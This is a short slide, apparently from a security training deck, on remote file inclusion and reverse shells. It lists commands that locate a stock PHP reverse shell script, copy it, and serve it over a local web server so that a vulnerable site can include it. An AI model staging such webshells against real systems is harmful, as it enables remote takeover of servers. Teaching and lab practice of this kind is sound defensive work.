

# Rfi & Reverse shell
$ sudo updatedb
$ locate shell.php
…
/usr/share/webshells/php/php-reverse-shell.php
…
$ cp /usr/share/webshells/php/php-reverse-shell.php ~/Desktop
$ cd ~/Desktop
$ python –m http.server –bind 127.0.0.1 9000